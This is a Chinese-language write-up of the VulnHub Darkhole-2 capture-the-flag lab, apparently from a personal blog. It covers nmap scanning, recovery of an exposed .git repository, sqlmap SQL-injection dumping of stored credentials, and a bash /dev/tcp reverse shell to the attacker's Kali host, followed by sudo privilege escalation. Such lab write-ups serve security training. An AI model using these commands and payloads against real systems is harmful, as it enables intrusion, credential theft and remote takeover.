# 目标

get **flags**


---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的IP地址是 `192.168.64.45`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.45 -sS -sV -Pn -p- --max-rate 10000
```


**TCP connection扫描**
```shell
nmap 192.168.64.45 -sT -sV -Pn -p- --max-rate 10000
```


**UDP扫描**
```shell
nmap 192.168.64.45 -sU -sV -Pn --top-ports 100 --max-rate 10000
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.45 -sV -sC -Pn -p 22,80,2 -O -oA nmap-scan/default
```

可以发现有`.git`文件。

**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.45 -sV --script vuln -p 22,80,2 -O -oA nmap-scan/vuln
```
有很多信息。

## 1.3 22端口获取信息
```shell
nmap 192.168.64.45 -p 22 --script ssh-auth-methods.nse,ssh-hostkey.nse -Pn -sV
```


## 1.4 80端口获取信息
### 1.4.1 访问`http://192.168.64.45`

有一个登陆点，


### 1.4.2 扫描网站目录/文件
```shell
gobuster dir --url http://192.168.64.45 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,jpg,png,html -db
```

没找到什么有用的信息。

### 1.4.3 利用nmap找到的`.git`文件
```shell
# 下载.git
wget -r -np -nH -nc http://192.168.64.45/.git/
```
然后通过git恢复网站文件 `git restore .`
在恢复后的文件里面可以找到config.php文件与login.php文件，里面的有价值的内容如下：
```php
$connect = new mysqli("localhost","root","","darkhole_2");
```
- 数据库地址：`localhost`
- 用户名：`root`
- 密码：`空密码`
- 数据库名：`darkhole_2`

查看git日志，`git log`

有比较有意思的地方，他添加了一个login.php默认的认证，去查看一下，

应该就是这个了，
- username: `lush@admin.com`
- password: `321`

直接去登陆网站，

现在来到了dashboard.php文件，去上面已经恢复的文件里面去看看，里面有十六进制码，使用下面的python代码恢复一下，
```shell
python -c 'print(b"xxx".decode())'
```
可以很明显的看出是有sql注入点的，注入点就是参数`mobile`
使用sqlmap来进行，保存如下内容到request.txt文件(使用Burp Suite抓包就行)
```http
POST /dashboard.php?id=1 HTTP/1.1
Host: 192.168.64.45
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Origin: http://192.168.64.45
Connection: keep-alive
Referer: http://192.168.64.45/dashboard.php?id=1
Cookie: PHPSESSID=vo9a0afv5a82hiu5au3dtfsovm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=Jehad+Alqurashiasddasdasdas&email=lush%40admin.com&mobile=1&address=+Street%2C+Pincode%2C+Province%2FState%2C+Country
```
执行如下命令，
```shell
sqlmap -r request.txt -p mobile --level=4 --risk=3 --batch
```
显示没有注入点，这个sql注入点其实是update注入，可以更改数据库的内容。

> 需要使用`mysqli::multi_query()`函数才可以使用`;`来执行多条语句。

查看界面可以看到url带有`?id=1`，也可能有注入点，尝试一下，
```
sqlmap -u http://192.168.64.45/dashboard.php?id=1 -p id --cookie="PHPSESSID=vo9a0afv5a82hiu5au3dtfsovm" --level=5 --risk=3 --batch --dbs
[*] darkhole_2
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

sqlmap -u http://192.168.64.45/dashboard.php?id=1 -p id --cookie="PHPSESSID=vo9a0afv5a82hiu5au3dtfsovm" --level=5 --risk=3 --batch -D darkhole_2 --tables
+-------+
| ssh   |
| users |
+-------+

sqlmap -u http://192.168.64.45/dashboard.php?id=1 -p id --cookie="PHPSESSID=vo9a0afv5a82hiu5au3dtfsovm" --level=5 --risk=3 --batch -D darkhole_2 -T ssh --columns
+--------+--------------+
| Column | Type         |
+--------+--------------+
| user   | varchar(100) |
| id     | int          |
| pass   | varchar(100) |
+--------+--------------+

sqlmap -u http://192.168.64.45/dashboard.php?id=1 -p id --cookie="PHPSESSID=vo9a0afv5a82hiu5au3dtfsovm" --level=5 --risk=3 --batch -D darkhole_2 -T ssh -C "id,user,pass" --dump
+----+--------+------+
| id | user   | pass |
+----+--------+------+
| 1  | jehad  | fool |
+----+--------+------+

sqlmap -u http://192.168.64.45/dashboard.php?id=1 -p id --cookie="PHPSESSID=vo9a0afv5a82hiu5au3dtfsovm" --level=5 --risk=3 --batch -D darkhole_2 -T users --columns
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| address        | varchar(100) |
| contact_number | int          |
| email          | varchar(100) |
| id             | int          |
| password       | varchar(200) |
| username       | varchar(100) |
+----------------+--------------+

sqlmap -u http://192.168.64.45/dashboard.php?id=1 -p id --cookie="PHPSESSID=vo9a0afv5a82hiu5au3dtfsovm" --level=5 --risk=3 --batch -D darkhole_2 -T users -C "id,username,password,email" --dump
+----+-----------------------------+----------+----------------+
| id | username                    | password | email          |
+----+-----------------------------+----------+----------------+
| 1  | Jehad Alqurashiasddasdasdas | 321      | lush@admin.com |
+----+-----------------------------+----------+----------------+
```

查到的一个ssh表里面有：
- username: `jehad`
- password: `fool`

---

# 2.建立系统立足点

使用上面得到的用户名与密码直接就可以登陆ssh了。


---

# 3.系统提权

可以读到`user.txt`文件，


找了半天 (虽然这里只有一句话，其实找了很多地方，尝试了很多方法)，通过查看历史命令`history`，可以看到如下信息，
```
152  curl "http://192.168.135.129/"
153  curl "http://127.0.0.1:9999/"
154  curl "http://127.0.0.1:9999/?cmd=id"
155  curl "http://127.0.0.1:9999/?cmd=nc"
```
尝试运行一下，`curl "http://127.0.0.1:9999/?cmd=id"`
```
Parameter GET['cmd']uid=1002(losy) gid=1002(losy) groups=1002(losy)
uid=1002(losy) gid=1002(losy) groups=1002(losy)
```
说明这个是一个以losy用户身份运行的命令。尝试建立反弹连接，
```shell
# 在kali端执行
nc -lvnp 1025

# 在靶机端执行
curl "http://127.0.0.1:9999/?cmd=bash%20-c%20%22bash%20-i%20>%26%20/dev/tcp/192.168.64.2/1025%200>%261%22"
```


现在已经切换到了*losy*用户，再次查看一下历史命令，
```
77  su lama
78  mysql -e '\! /bin/bash'
79  mysql -u root -p -e '\! /bin/bash'
80  P0assw0rd losy:gang
```
虽然我们使用了losy用户的shell，但是我们没有losy用户的密码，因此查看`sudo -l`无法实现。但是在上面看到的这些历史信息，给了我提示，我猜测密码可能如下：
```
P0assw0rd
gang
losy:gang
P0assw0rd losy:gang
```
进过验证，*losy*用户的密码就是*gang*.

在看第83行的历史信息：`83  sudo python3 -c 'import os; os.system("/bin/sh")'`
那应该就可以提权成功了，


---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**Darkhole-2**: 
- website: `https://www.vulnhub.com/entry/darkhole-2,740/`
- IP: `192.168.64.45`
- CPU Arch: `x86_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐